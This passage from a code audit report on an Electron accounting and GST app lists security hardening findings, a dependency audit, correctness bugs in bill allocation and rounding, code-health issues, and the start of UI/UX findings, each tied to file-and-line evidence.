  `src/main` (grep). Electron's default approves camera, microphone, geolocation, notifications,
  etc.
- **Fix:** deny everything except `clipboard-sanitized-write` (Copy for SMS / WhatsApp uses the
  clipboard).

#### SEC-16 — Low — CSV formula guard missing in some exports

- **Evidence:** `shared/csv.ts:103-117` neutralises `= + - @`, but `shared/gst/itc04.ts:313-317`,
  `gst/gstr9.ts:601-604` and `gst/ims.ts:152-155` have their own `csvCell` without it. ITC-04
  carries job-worker / party names, which can arrive through Tally / books import.
- **Fix:** use `rowsToCsv` / `neutralizeCsvFormula` everywhere.

#### SEC-17 — Low / informational — Site waitlist: no privacy notice, retention or deletion path  ✅ DONE — PR #242

- **Evidence:** `site/components/WaitlistForm.tsx:99-101` says only "We only use this to tell you
  when 1.0 is out". There is no privacy page, retention period or unsubscribe/erase route. E-mails
  live in Upstash Redis indefinitely (`site/lib/waitlistStore.ts`, `HSETNX waitlist`). India's
  DPDP Act 2023 expects a notice and erasure on request. Rate limiting is sound (salted /64 IP
  hash, per-IP 20 / 10 min, global 600 / 10 min, `site/lib/waitlist.ts:45-62`). The salt falls
  back to `''` if no env var is set (`waitlistAction.ts:23`), which only weakens rate-limit key
  privacy.
- **Fix:** a short privacy notice (purpose, processor = Upstash/Vercel, retention, contact for
  erasure) and a delete-after-1.0 policy.

#### SEC-18 — Low — Wide renderer bridge (no allowlist)

- **Evidence:** `src/preload/index.ts:19-24` lets the renderer invoke any `total:<[A-Za-z0-9:._-]+>`
  channel. Today every `total:*` handler goes through `handle()` with the sender check
  (`ipc.ts:536-545`, `ipcSender.ts`), so this is not exploitable now; it just means the renderer's
  reach is the whole IPC surface.
- **Fix (optional):** generate an allowlist from `CHANNEL_ROLES` at build time.

---

### Dependency audit (`npm audit --json --package-lock-only`)

- **Root:** 0 critical, 0 high, 6 moderate. All come from `minimatch` 7.0.0–11.0.0
  (GHSA-g3hv-75wg-m249, ReDoS via globparts) through `electron-builder` → `app-builder-lib` /
  `dmg-builder` / `@electron/universal` / `electron-builder-squirrel-windows`. These are
  **build-time only**: none of them ship in `out/` (`build.files` = `out/**`, `package.json`).
  Not reachable in production. npm's suggested "fix" is a semver-major *downgrade* to
  electron-builder 25.1.0; don't take it — wait for an upstream bump.
- **Site:** 0 vulnerabilities.

---

### Verified fine (one line each)

- Main window `webPreferences`: `sandbox`, `contextIsolation`, `nodeIntegration*: false`, `webSecurity`, `webviewTag: false`, `allowRunningInsecureContent: false` (`windowPolicy.ts:22-36`).
- Renderer CSP: `default-src 'self'; script-src 'self'; object-src 'none'; base-uri 'none'` (no remote connect, no eval) (`src/renderer/index.html:8-9`).
- `setWindowOpenHandler` always denies and only hands allowlisted URLs to the OS; `will-navigate` / `will-redirect` refused outside dev; webviews refused; applied to every web contents (`windowPolicy.ts:59-78`, `index.ts:160-165`).
- External URL allowlist: exact GST/CBIC hosts, https, no credentials or ports; `mailto:`; `wa.me/<digits>` only (`shared/helpLinks.ts`, `shared/externalLinks.ts`); `help:openLink` re-checks in main (`ipc.ts:3626-3634`).
- IPC sender check: main frame + exact renderer file URL, before payload parsing (`ipcSender.ts`, `ipc.ts:539-545`); no `ipcMain.on` listeners at all.
- Every one of the 695 handlers either takes no payload or parses it (Zod in the handler or in the service it calls). The three my heuristic flagged are fine: `receivables:setConfig` parses in `receivables.ts:74`; `company:backup` / `backup:run` take no payload.
- No viewer-gated channel writes the books: the 11 viewer channels with a write mapping are exports (canExport-gated), `session:lock`, and AI chat/thread rows. AI tools are role-gated per tool (`ai/tools/registry.ts:91-114`); drafts never post.
- No protocol handlers, no `open-url` / `open-file`, no deep links.
- Renderer never renders model or user text as HTML: assistant markdown has no links/HTML (`lib/markdown.ts:1-5`); help markdown is parsed to data; the print preview iframe is `sandbox="allow-same-origin"` (no scripts) (`PaperPreview.tsx:70-75`).
- Print HTML escapes every user field I sampled (`render.ts` `esc`, `stockPlanning.ts`, `reportHtml.ts`, `payroll.ts`, `cheque.ts`); logo data-URL and hex-colour schemas stop CSS/attribute injection.
- Tally XML parser and the bank XML parser skip `<!DOCTYPE …>` entirely, so no XXE and no entity expansion (`shared/tally.ts:51-55`, `bankFormats/xml.ts:66-67`).
- XLSX zip reader: declared-size `maxOutputLength`, 512 MB total cap, CRC check, no ZIP64, entries read into memory by name only (never written to disk), so no zip-slip (`shared/xlsx/zip.ts:65-112`, `services/xlsxFile.ts:8`); the bank reader caps entries at 64 MB (`bankFormats/zip.ts:91-96,175,230`); PDF streams are capped at 32 MB (`capture/pdfInflate.ts`).
- Renderer never supplies file paths: Tally `filePath` must be dialog-issued (`ipc.ts:229-234`); data-folder move needs the main-side pick (`ipcDataRoot.ts:94-96`); `backup:restore` / `backup:reveal` names are regex-checked (`schemas.ts:605`); `receivables:reveal` is confined to exports (`ipcReceivables.ts:24-30,69-75`); export filenames are `^[a-z0-9-_]+$` (`xlsx/schema.ts:32-36`).
- Attachments: content-addressed, stored path must equal the hash path, lstat / O_NOFOLLOW, extension allowlist with no HTML/SVG/executables/archives, re-checked and content-sniffed on open, opened from a private temp copy (`services/attachments.ts`, `shared/attachments.ts:26-50`); capture deletes only `^[0-9a-f]{2}/[0-9a-f]{64}$` (`capture/files.ts:94-95`).
- Company slugs from names are `[a-z0-9-]` plus a Windows device-name suffix (`paths.ts:93-102`); the `.totalbak` import picks a fresh slug.
- Secrets: safeStorage only, no plaintext fallback, file mode 0600, atomic writes (`services/secrets.ts`); test cipher refused in packaged builds (`secrets.ts:164-166`); the renderer gets only key hints / masked NIC fields (`nic.ts:128-130`, `providerConfig.ts:110-121`); the AI key audit records the hint only; provider errors redact key and header values (`provider.ts:334-337`); IPC logs never hold payloads (`ipc.ts:590-594`).
- AI network: hosted endpoints fixed in main; custom URL https, or http only on exact loopback names; no credentials/query in it; redirects refused (`redirect: 'error'`, `provider.ts:329-330`); the custom key/headers are bound to their origin (`providerConfig.ts:94-107`). IPv4-mapped / alternate loopback spellings are refused (string match, safe direction). `localhost` resolves locally, so DNS rebinding is not a concern.
- Key envelope: random 32-byte data key, scrypt N = 2^17 r = 8, AES-256-GCM with random IV, params in AAD, cost floor 2^14 on read (`db/keyEnvelope.ts`); unlock accepts a key only if it opens the file (`companyKeys.ts:120-138`); passphrase throttle shared by open / delete / unlock / CLI. It is in-memory only, which the docs state openly (`companyKeys.ts:142-166`).
- File encryption: per-file HKDF subkey bound to the content hash, random 96-bit nonce, magic + nonce as AAD, tag and plaintext hash checked on every read (`db/fileCrypto.ts`). With per-file keys a nonce collision has no practical chance.
- Test switches (`TOTAL_E2E_TODAY`, `TOTAL_AI_MOCK`, `TOTAL_INSECURE_TEST_SECRETS`) are refused in packaged builds.
- Site: `/api/download` redirects only to GitHub-derived asset URLs (no open redirect); `/api/latest` builds its URL from the request origin (Vercel pins the Host); `GITHUB_TOKEN` and the KV token are server-only (`server-only`, no `NEXT_PUBLIC_`); the waitlist export uses a constant-time token check, returns 404 otherwise, and its CSV is formula-safe; same answer for new and repeated sign-ups.
- CI: `scheduled-release.yml` runs PRs under `pull_request` (not `pull_request_target`) with `contents: read`.

### Not verified / out of scope

- Whether every screen shows cached `data` after an error (SEC-2 depends on React Query's standard behaviour).
- The NIC client has never run against the real portal (CLAUDE.md); its crypto (AES-ECB session per the NIC spec) was not reviewed.
- SQLite temp files of an encrypted DB (`temp_store` default), which the encryption doc already flags.
- The PDF worker's parser budgets beyond the inflate cap.

---

## 2. Correctness & code health

Auditor: an independent agent, static analysis only. No builds and no test runs; no repo file was changed.
Read first: CLAUDE.md, `docs/plan/upgrade-plan.md`, `docs/plan/phase1-triage.md`, and `to-do.md` for items already known.
Each finding names its evidence as `file:line`. A finding I could not tie to code is not listed.

Already known and NOT counted as new findings, though they still look open in code:
- **#207 golden-fixture known bugs** (`to-do.md:45`, `src/main/services/gstGolden/fixtures.ts:61,194,264,281,295,309,501,509,526,543`). All of these are still open. Confirmed in code: `computeInvoice` (`src/shared/voucherEdit/invoice.ts:208-261`) never reads the party's SEZ or export type. `InvoiceContext.ledgers` carries only `stateCode` / `gstRate` (`invoice.ts:164-169`). So a sale to an SEZ unit in our own state still gets CGST+SGST, and a sale under LUT still gets IGST on the bill. Of these, (c) and (d) are the most harmful, because they put wrong money on a customer's bill.
- Triage P2: rounding per group vs per line and float intermediates. Triage P5: launch time and main-thread SQLite. Triage P2: discounts under Sales.

---

### 2.1 Engine correctness

#### COR-1 · HIGH · An "against" bill reference on an entry that INCREASES the balance reduces the bill. Outstandings then no longer equals the ledger.

**Evidence**
- `src/shared/outstanding.ts:155-180`. In `apply`, an `against` ref is routed by sign only when a *named credit* of that name exists (`:161`). In every other case it falls to `settleNamed` (`:178`), which *reduces* the named bill whatever the event's sign.
- Paths in the app that create such refs with nothing to stop them:
  - `src/renderer/src/screens/voucher/InvoiceEntry.tsx:230-234, 377-385, 1049-1052`. Every note kind (`credit_note` and `debit_note`) lists the party's open bills and ticks them as `kind: 'against'`. An **outward debit note to a customer** is a supported document (CLAUDE.md: `outwardDebitNoteIds`; GSTR-1 CDNR). It offers the customer's open invoices, and ticking one creates `against` on a positive event.
  - `src/renderer/src/screens/voucher/AccountingEntry.tsx:858-866`. Journals and other trading kinds have a free "New bill / Against" picker on either side.
  - `src/shared/dataImport/busy.ts:336, 503`. The Busy import maps every non-"new" allocation to `against`, whatever its side.
- No server-side guard. `src/shared/posting.ts:128-142` checks only that the refs add up. `vouchers.ts:575` reads `against` refs only to find a note's originals.
- The Tally import already knew about this hazard and works around it. `src/main/services/tallyImport.ts:199-212` (`if (!settles)`) turns an Agst Ref on a non-settling entry into a *new* bill so that the engine never sees one. The editors, saveVoucher and the Busy import do not do the same.

**Failing scenario** (accountant mode, a common GST practice: a rate-difference debit note issued against the original invoice under s.34)
- Customer A owes invoice S/1 of ₹11,800.
- Debit note DN/1 of ₹1,180 is issued to A, and S/1 is ticked in the note's bill section.
- Ledger balance: ₹12,980.
- Outstandings: S/1 pending ₹10,620. That is ₹2,360 (twice the note) short.
- Everything downstream inherits the error: receivables, reminders and interest, Home "customers owe", People, Ask Total and the cash forecast. CLAUDE.md states the invariant "forecast opening = TB" and "Outstandings = TB", and this case breaks it.
- A journal "Dr Customer / Cr Freight recovered, Against S/1" (freight added to the bill) gives the same result.

**Fix**
- In `billAllocator.apply`, an `against` ref on a positive event that names an *open bill* should add to that bill's pending. That is Tally's semantics, where an Agst Ref on the bill's own side increases it.
- Alternatively, refuse it in `validateVoucher` / saveVoucher with a field error, and have the note editor offer only "new" for a debit note to a debtor and a credit note to a creditor.
- Add the case to `outstanding.test.ts` and `outstandingDifferential.test.ts`.
- This moves Outstandings figures for affected books, so it needs an upgrade diff.

#### COR-2 · MEDIUM · Ticking a bill after the amount is fully allocated over-allocates it, and the save is then refused.

**Evidence**
- `AccountingEntry.tsx:359` and `InvoiceEntry.tsx:381` both use `Math.min(bill.pending, remaining || bill.pending)`. When `remaining` is 0 (everything is already allocated), `0 || bill.pending` gives the whole bill.

**Scenario**
- A receipt of ₹5,000 has already been ticked against bill A (₹5,000).
- Ticking bill B (₹3,000) allocates ₹3,000 more, so ₹8,000 is allocated against ₹5,000.
- Save fails with `bill_refs_mismatch` ("must add up to the party ledger's amount"). The user sees the error only after pressing Save.

**Fix**
- Use `remaining > 0 ? Math.min(bill.pending, remaining) : 0`, or refuse the tick. Both screens share the bug, so the toggle could be one helper.

#### COR-3 · MEDIUM · Bills total is defined two different ways. The GSTR-1 / e-invoice total disagrees with the bill, lists and save card.

This is the root cause of the known bug #207(a). It is listed because the definition is duplicated in roughly 12 places, each of which can drift.

**Evidence**
- "Bill total = SUM of debit lines":
  - `gst.ts:373` (`invoiceValue` → GSTR-1 `val`, and the B2CL test at `returns.ts:310,327` via `b2clLimitOn`)
  - `gst.ts:271` (CDNUR original's value)
  - `edocs.ts:105,293` (e-invoice / e-way totals)
  - `vouchers.ts:294` (duplicate warning), `vouchers.ts:1161,1270,1297`
  - `caPack.ts:180`, `reports.ts:274`
- "Bill total = net of the party line": `src/shared/simple/saveCard.ts:14-20` (`billAmount`), used by the simple sales and purchase lists and the save card.

**Scenario**
- A B2C inter-state invoice of ₹2,50,000.40 is rounded down to ₹2,50,000. The round-off is a Dr line.
- SUM(dr) = ₹2,50,000.40, which is above `b2clLimitOn` (₹2.5 L before Aug 2024), so the invoice lands in **B2CL**.
- The printed invoice says ₹2,50,000, which is not above the limit, so it belongs in **B2CS**.
- Since Aug 2024 the same edge applies at ₹1 L.
- Separately, any accounting-mode invoice with a Dr discount line reports the gross value as `val` (related to triage P2).

**Fix**
- Write one SQL helper / CTE, "document value = |net of party lines|, else Σ cash/bank", and use it everywhere.
- Fix it together with #207(a) under the upgrade diff.

#### COR-4 · LOW · "Today" computed in UTC in the renderer (00:00–05:30 IST gives yesterday).

**Evidence**
- `src/renderer/src/components/bulk/BulkEdit.tsx:155`: the bulk-edit date falls back to `new Date().toISOString().slice(0,10)`.
- `src/renderer/src/screens/voucher/TransportModal.tsx:196`: the transport-document date context.
- Export labels: `Capture.tsx:251`, `banking/ImportTab.tsx:436`.
- File names: `src/main/ipcDataImport.ts:112`, `src/main/log.ts:20`.
- Everything else uses `todayISO()` (local) or UTC-only date arithmetic consistently. I checked all 46 `toISOString().slice(0,10)` sites.

**Scenario**
- Bulk-editing at 01:00 IST with no working date stamps yesterday's date.

**Fix**
- Use `todayISO()` from `src/shared/dates.ts:134`.

#### COR-5 · LOW · Money products can exceed 2^53, and negative halves round toward +∞.

**Evidence**
- `src/shared/valuation.ts:127,144,173,193`: `Math.round((value * q) / qty)`. Value is in paise and quantity in thousandths. Example: 50,000 bags worth ₹2 Cr is 2e9 paise; selling 5,000 bags is 5e6 milli; the product is 1e16, above 9.007e15. The result is off by about a paisa, while `mulDivRound` (`src/shared/intMath.ts:7`, BigInt) is used two lines below for the count case.
- `pricing.ts:184` and `voucherEdit/invoice.ts:224` (`qty × rate`) have the same pattern.
- `Math.round(-2.5) = -2`, whereas `roundPaise` rounds half away from zero.

**Impact**
- Paisa-level stock-value drift only on very large wholesale items. Unlikely for a small shop.

**Fix**
- Route these through `mulDivRound` (see HEALTH-6).

#### Checked and found clean (no finding)
- **P&L figures**: every profit consumer goes through `profitAndLoss` / `pnlLedgerAmounts`. The only other `nature IN ('income','expense')` queries are in `reports.ts` itself and `yearEnd.ts:56`.
- **MOVES_STOCK**: already enforced by `movesStockLint.test.ts`.
- **NOT_DELETED**:
  - A script scan found 77 SELECTs over `vouchers` / `voucher_lines` in `src/main` with no `deleted_at` / `IN_BOOKS` in the same string literal.
  - I spot-checked about 25 of them. All were by-id lookups on already-filtered ids, plus `reports.ts:391`, which uses a `${scope}` variable.
  - No live leak found, but nothing enforces the rule (HEALTH-4).
- **Float parsing**: no `parseFloat` on money in the renderer or main. The qty parser was fixed in 2026-11 (`src/shared/qty.ts:2`).

---

### 2.2 Dead code from removed features

#### HEALTH-1 · LOW · Orphans and leftovers

**Unreachable or unused code**
- `src/renderer/src/components/ReportConfigButton.tsx`: not imported anywhere (only the README mentions it). The DataTable column chooser replaced it.
- `src/main/services/gst.ts:715` `inwardSummary`: exported, but no caller in app or tests.
- `src/shared/forex.ts`: `settleBills`, `allocateFifo`, `foldExposure` and `parseRateMicro` are used only by `forex.test.ts` / `forexLegacy.testutil.ts`. These are forex *writer* maths left in a production module after #195. Move them next to the testutil.

**IPC channels with no renderer client**
- `importwiz:templateSave` (`src/main/ipcDataImport.ts:224`).
- `gateway:ewb:extend` (`src/main/ipcGateway.ts:90`). This is either an unfinished Phase 4 piece or dead.
- The other 693 handled channels are all referenced.

**i18n keys**
- 16 `en` keys have no reader. Each also exists in hi and hinglish, so the dead strings total about 48:
  - `simple.ask.*` (10: the WP 8.2 stubs replaced by `assist.*`)
  - `simple.sell.mode.items|amount`
  - `simple.money.other.*` (6)
- The parity test keeps them alive.

**Dependencies**
- `@electron-toolkit/preload` is in devDependencies but never imported (the preload does not use it).
- Every other dependency is used. `@testing-library/dom` is RTL's peer dependency.

**Already handled properly**
- Removed-feature tables are handled on purpose (`services/leftoverPlanning.ts`).
- `agentBridge.ts` is the kept read mirror, not dead.
- Docs drift: `docs/perf-budgets.md:50,114,155` still names a "Day book" case, but that screen is gone (it is now All entries).

**Fix**
- Delete the orphans, the two unused channels (or wire them up) and the 16 keys. Drop the unused dependency.

---

### 2.3 Duplicated logic

#### HEALTH-2 · MEDIUM · About 40 private date helpers re-implement `addDaysISO` / `daysBetween`

**Evidence**
- `src/shared/dates.ts:172` exports `addDaysISO`.
- Local copies exist in 38 other places, including:
  - `outstanding.ts:42,48`
  - `screens/voucher/hooks.ts:73` (its comment says it "mirrors @shared/outstanding's private helper")
  - `banking/PdcTab.tsx:181`, `partyNotes.ts:46`
  - `gst/selfInvoice.ts:39`, `gst/itcReversal.ts:169`
  - `receivables/interest.ts:23`, `receivables/reminders.ts`
  - `payables/msme.ts` (×2), `cashForecast.ts`, `compliance.ts`, `reportPeriod.ts`, `simple/reports.ts` (×2)
  - `services/reports.ts` (×2), `services/tds.ts:128`, `services/priceLevels.ts:216`, `ai/memory.ts:262`, `cashFinanceCommon.ts`, `tradeReports.ts`
  - plus others.
- All of them are UTC-consistent today. But a due-date or overdue rule that differs by one (Math.floor vs Math.round, inclusive vs exclusive) would drift silently between Outstandings, interest, MSME and reminders.

**Fix**
- Export `addDaysISO` / `daysBetweenISO` from `dates.ts` and replace the copies mechanically.

#### HEALTH-3 · MEDIUM · Bill total, party side and bank detection are each defined more than once

**Evidence**
- Bill total: see COR-3.
- Bank ledger detection:
  - The renderer decides it by group **name** (`src/renderer/src/screens/voucher/hooks.ts:72`, `['Bank Accounts','Bank OD A/c']`).
  - Main uses `cashBankGroupIds(db)` (e.g. `gst.ts:143`).
- Party side by seeded name, outside the triaged GST exception:
  - `services/counter.ts:94` (walk-in under `'Sundry Debtors'` by name)
  - `components/LedgerFormModal.tsx:156`, `voucher/modals.tsx:144`, `lib/handoff.ts:287`
  - `Gateway.tsx:287-288` (fallback label)
- CLAUDE.md says the side comes from `partyGroupRole`, never the seeded name. These are defaults rather than figures, but an imported chart whose debtors group is named differently gets a wrong default group or no walk-in group.

**Fix**
- Expose the role-based helpers to the renderer through the masters store, and use them.

---

### 2.4 Oversized files

#### HEALTH-4 · MEDIUM · God modules that collide on every PR

Line counts of the largest .ts / .tsx files:

| File | Lines |
|---|---:|
| `src/main/ipc.ts` | 3677 |
| `src/main/db/migrations.ts` | 3654 (append-only, fine) |
| `i18n/catalogues/en.ts` / `hi.ts` / `hinglish.ts` | 3139 / 3029 / 3024 |
| `services/dataImport.ts` | 1808 |
| `services/fixedAssets.ts` | 1706 (a hidden feature) |
| `renderer/lib/client.ts` | 1560 |
| `renderer/lib/screens.ts` | 1536 |
| `shared/simple/intents.ts` | 1450 |
| `components/table/DataTable.tsx` | 1348 |
| `shared/schemas.ts` | 1344 |
| `services/vouchers.ts` | 1315 |
| `screens/Masters.tsx` | 1297 |
| `screens/Payroll.tsx` | 1282 |
| `services/reports.ts` | 1277 |
| `shared/print/render.ts` | 1234 |
| `services/gst.ts` | 1198 |
| `screens/voucher/InvoiceEntry.tsx` | 1186 |
| `components/ai/AssistantPanel.tsx` | 1094 |
| `screens/CounterBilling.tsx` | 1042 |
| `services/stockAnalysis.ts` | 1033 |

The real maintenance risks:
- **`ipc.ts`** holds 432 handlers and 173 import lines (the other 21 `ipc*.ts` files hold the rest of the 695 channels). It changed in 144 commits since 1 Sept, the most of any code file after the en catalogue. Every feature touches it, together with `auditCoverage.ts` (87 commits) and `client.ts` (93 commits). Split it by domain into `ipc<Domain>.ts`, as the newer areas already are.
- **`gst.ts`** mixes extraction, posted-rate inference, original-invoice resolution and returns. `intents.ts` holds 31 exports covering seven intents. Both are the highest-risk money code, and their size makes review unreliable.
- **`InvoiceEntry.tsx` / `AccountingEntry.tsx`** hold bill-allocation business logic inside components (COR-1, COR-2), and no unit test covers it (HEALTH-5).

---

### 2.5 Test gaps and flakiness

#### HEALTH-5 · MEDIUM · The riskiest gaps

The suite is large: 304 test files plus 201 dbtests, about 99k test lines against 221k source lines. The gaps are specific.
- `outstanding.test.ts` has no case of an `against` ref on a positive event that names an open bill (COR-1). Its `against` cases are all settlements, or uses of named credits (`:61-177`).
- The bill-allocation logic in the accountant editors (`toggleBill`, `toggleNoteBill`, the manual ref picker) has no unit test. `src/renderer/src/__tests__` has only routing and number-field tests for the editors, so only e2e covers it.
- No lint enforces `NOT_DELETED`, though `movesStockLint.test.ts` enforces the parallel stock rule. A new report that forgets `deleted_at IS NULL` would include binned bills silently. Add `notDeletedLint.test.ts`: every `FROM vouchers` / `JOIN voucher_lines` literal must name `NOT_DELETED`, `IN_BOOKS` or `deleted_at`, or be on an allowlist (by-id lookups, the bin, `getVoucher`, `nextVoucherNumber`).
- These services have no test of their own; only 1-2 other tests import them: `gstItcReversal.ts` (rule 37/42/43), `gstRcm.ts`, `gstAnnual.ts`, `bankImport.ts` (824 lines), `tallyImport.ts` (793 lines), `stockAnalysis.ts`, `analysis.ts`.
  - The golden fixtures cover RCM (`fixtures.ts:434-455`).
  - Rule-37 ITC reversal (`services/gstItcReversal.ts:111,150`) is exercised only through `gstExpansion.dbtest.ts`.
- CI runs unit tests in UTC (the `test` job has no `TZ`). The class of bugs where local-date and UTC code are mixed (COR-4) is never exercised under IST in unit tests; only e2e pins `TZ=Asia/Kolkata`.

#### HEALTH-6 · MEDIUM · Four rounding conventions for money

**Evidence**
- `roundPaise`: half away from zero, on floats (`money.ts:87`).
- `Math.round(a*b/c)`: half toward +∞, on floats. Used in valuation, pricing, manufacture, tcs, withholding and invoice (see COR-5).
- `mulDivRound`: BigInt, half away (`intMath.ts:7`).
- BigInt half-up in `simple/openings.ts:177`.
- `percentOf` multiplies paise by a fractional rate as a float (`money.ts:100`). For the GST slabs in use (0.125 up to 40/2) every product is an exact dyadic number, so it is correct today. A TCS / TDS rate such as 0.1% is not, and the half-way cases depend on float luck (`tds.ts:61`, `withholding.ts:224` use basis points, which is good; `tds.ts:61` uses `effectiveRate` as a float percent).

**Fix**
- Fold this into the triage P2 work "one rounding rule, BigInt only": one `mulDivHalfAway` for every money product.

#### HEALTH-7 · MEDIUM · e2e sleeps, and no e2e on PRs

**Evidence**
- There are 92 `waitForTimeout` calls in `scripts/` (heaviest: `lib/beginner-journey.mjs` ×5, `50-quick-create` ×5, `31-banking-depth` ×4 including a 30 s poll loop at `:178`, `26-orders`, `24-challan-grn`, `12-theme-a11y:97,118`). CLAUDE.md WP 7.4 says to fix flakes "never with retries or sleeps"; each of these is a latent flake on a loaded runner.
- `.github/workflows/ci.yml:111-113`: `e2e-mac` has `if: github.event_name == 'push'`. PRs merge without the e2e suite, which is caught only post-merge and by the scheduled-release gate.
- The `test`, `smoke-mac` and `e2e-mac` jobs have no `timeout-minutes` (the default is 6 h).
- CI uses Node 22 (`ci.yml`). Locally, node 26 is installed.
- The suite takes about 771 s in total (`scripts/e2e/timings.json`); the slowest scenarios are 73 (70 s) and 12 (50 s).

**Fix**
- Replace the sleeps with state waits (`data-loading`, a specific row).
- Run a sharded e2e subset on PRs (`--shard`), or at least the scenarios for the paths touched.
- Add `timeout-minutes` to every job.

---

### 2.6 Performance

#### HEALTH-8 · MEDIUM · The UI waits behind synchronous SQLite on the main process (known P5); a few concrete levers

**Evidence**
- Every report handler runs on the Electron main thread (`ipc.ts:2060-2140`). Only integrity checks, backup verification and PDF parsing use workers (`db/checkHost.ts`, `ai/capture/pdfHost.ts`).
- `docs/perf-budgets.md` reports figures over budget:
  - `gatewayAll`: 2.5 s median against a 2 s budget.
  - Launch to Home: 6.5 s against a 2 s target.
  - 500k-voucher reports: over 3 s.
- While a report runs, every other IPC call queues behind it, including typing-driven ones such as `pricing:resolve` and previews.

**Launch path** (`src/main/index.ts:153-187`)
- `createWindow()` runs only after `ensureDataTree()`, `registerIpc()`, `startBackupScheduler()` and the attachment sweep.
- `ipc.ts` statically imports the whole main graph: `ai/ipc` → `agent` / `provider.ts:26` `import OpenAI from 'openai'`, the capture runner, gateway, etc. (`ipc.ts:115-129`). All of it evaluates before the first window even exists, with AI off.

**N+1-style per-voucher statements**
- These are prepared once but run per voucher inside loops: `edocs.ts:279-298` (lines, total and tax probe per invoice) and `gst.ts:121-145` (posted-rate facts per voucher).
- With better-sqlite3 each call is cheap, so this matters only at 100k+, but it goes against CLAUDE.md's "batch per-row lookups in chunks of 500".

**Fix (P5)**
- Call `createWindow()` first and register IPC right after, before the renderer's first call.
- Lazy-`import()` the AI and gateway modules.
- Move the heavy read-only reports (dashboard series, GSTR-9, CA pack, books export) to a read-only connection in a worker. The check worker already proves the pattern.

---

### 2.7 Code health

#### HEALTH-9 · MEDIUM · No linter, yet 60 `eslint-disable` comments

**Evidence**
- `package.json` has no eslint, biome or oxlint, and the repo has no config file.
- `grep eslint-disable src` returns 60 comments: 57 are `react-hooks/exhaustive-deps`, plus `no-control-regex` and `no-console`. They suppress a rule nothing runs, so the deps of every *other* hook are never checked either.
- In the money-entry editors, stale closures are a classic way to save a stale total. An example of a hook whose deps are already hand-managed is `InvoiceEntry.tsx:356-360`.

**Other counts**
- TypeScript is `strict` plus `noUncheckedIndexedAccess` (good).
- `@ts-ignore`: 0. `@ts-expect-error`: 1.
- `any`: 15 in non-test code, for example `edocs.ts:110-113`, where the e-invoice row path is `as any[]`.
- `as unknown as`: 35 in non-test code.
- TODO / FIXME / HACK: 0. Debt is tracked in `to-do.md` instead.

**Fix**
- Add ESLint with `react-hooks` (at least `rules-of-hooks` + `exhaustive-deps`) to CI, and add `no-explicit-any` for `src/main/services`.
- Retype `edocs.ts`'s row mapping.

---

### Summary table

| id | sev | title |
|---|---|---|
| COR-1 | high | "Against" bill ref on an increasing entry (outward debit note, journal, Busy import) reduces the bill, so Outstandings ≠ ledger |
| COR-2 | medium | Ticking a bill after full allocation over-allocates (`remaining \|\| bill.pending`), so the save is refused |
| COR-3 | medium | Bill total defined two ways (SUM dr vs party line); B2CL/B2CS and e-invoice totals flip on rounded-down bills (root of #207a) |
| COR-4 | low | Renderer "today" from UTC in bulk edit / transport modal / export labels |
| COR-5 | low | qty×value float products can pass 2^53; negative halves round toward +∞ |
| HEALTH-1 | low | Orphans: ReportConfigButton, gst.inwardSummary, forex writer maths, 2 unused channels, 16×3 i18n keys, @electron-toolkit/preload |
| HEALTH-2 | medium | About 40 private copies of addDays/daysBetween |
| HEALTH-3 | medium | Bank detection / party side by group name in renderer and counter; bill total duplicated |
| HEALTH-4 | medium | God modules: ipc.ts (3677 lines, 432 handlers, 144 commits since Sept), gst.ts, intents.ts, editors |
| HEALTH-5 | medium | Test gaps: positive-against case, editor bill logic, no NOT_DELETED lint, thin ITC-reversal / bankImport / tallyImport own tests, unit tests only in UTC |
| HEALTH-6 | medium | Four rounding conventions for money (roundPaise / Math.round / mulDivRound / BigInt half-up) |
| HEALTH-7 | medium | 92 waitForTimeout in e2e; e2e not run on PRs; jobs without timeouts |
| HEALTH-8 | medium | Synchronous main-thread reports; window created after IPC + whole main graph (incl. openai) load; per-voucher statement loops |
| HEALTH-9 | medium | No linter, yet 60 eslint-disable comments; `any` in the e-invoice row mapping |

---

## 3. UI & UX (both modes)

Method: `npm ci` + `npm run build`, then the BUILT app driven by a scratch Playwright driver over
`scripts/lib/harness.mjs` (scratch `TOTAL_DATA_DIR`, insecure test secrets, 1280×800 unless noted).
Four runs: (A) first run → setup wizard → fresh regular-GST kirana → empty states; (B) "Try with sample
data" (simple mode) → every simple section, Ask Total, Help, ⌘K, dark, 1024×700; (C) "Sample data in
the full app" → Gateway, voucher entry, registers, TB / P&L / BS, Outstandings, GSTR-1 / 3B, Masters,
Settings, dark, drill-down, company switch; (D/E) the wizard company again → "Add your business
details", first bill, keyboard pass. On every captured screen the repo's own a11y sweep
(`sweepInPage`) and the simple-mode banned-word list were run: **0 contrast failures, 0 unlabeled
controls in simple mode, 0 banned words on simple screens, 0 console errors, focus ring visible on every
stop checked** (wizard, Home, Make a bill, Gateway). So the problems below are product / IA / visual
problems, not lint failures.

### Launch time (measured)

| Run | Launch → `window.total` | → first screen idle |
|---|---|---|
| A (very first launch, cold file cache) | 4 989 ms | 5 056 ms |
| B | 2 432 ms | 2 501 ms |
| C | 2 101 ms | 2 156 ms |
| D / E (existing company) | 1 216 / 1 792 ms | 1 242 / 1 833 ms |

Demo company creation → Home/Gateway: 0.5–0.6 s. Wizard "Start using Total" → Home: 0.6 s. (Includes
Playwright attach overhead; numbers are rough.) The first launch at ~5 s is the one a new user sees.

### Onboarding count (shop owner, first bill)

Wizard: 6 steps, ~13 clicks/keystroke-groups minimum (language, name, state, type, GST + GSTIN +
filing, stock, start date + fresh/continuing, Tally) → 4-step tour → Home. First bill via "+ Sale →
Just an amount instead → 500 → 18% GST → Save bill" = 5 interactions (the first Save was correctly
refused under the field because no GST rate was picked). Total ≈ 18–20 interactions, ~1–2 minutes.
Nothing scary in the wizard itself (plain words, good errors). The scary moment is AFTER it: the
first setup task on Home drops the owner into the accountant "Company details" form (UX-1).

---

### Findings

#### UX-1 — high — simple — Home's first setup step opens the accountant Company details form
- Evidence: [simple-business-details-handoff.webp](shots/simple-business-details-handoff.webp), [simple-home-empty-light.webp](shots/simple-home-empty-light.webp);
  `src/renderer/src/lib/screens.ts:811-820` (`company-info`, `modes: ['accountant']`, simple entry `business`).
- Scenario: a fresh simple company's only primary button on Home is "Add your business details" (also
  setup checklist row 1 and Settings → "Business details [Full app]"). It lands in the full shell
  (accountant sidebar, "Assistant", "Anywhere") on a form with "Registration", "GSTR-1 filing",
  "e-invoices (IRN)", "E-invoice applicability — aggregate turnover of the PAN … from 2017-18",
  "Left out of e-invoicing as", the word "ledger" further down.
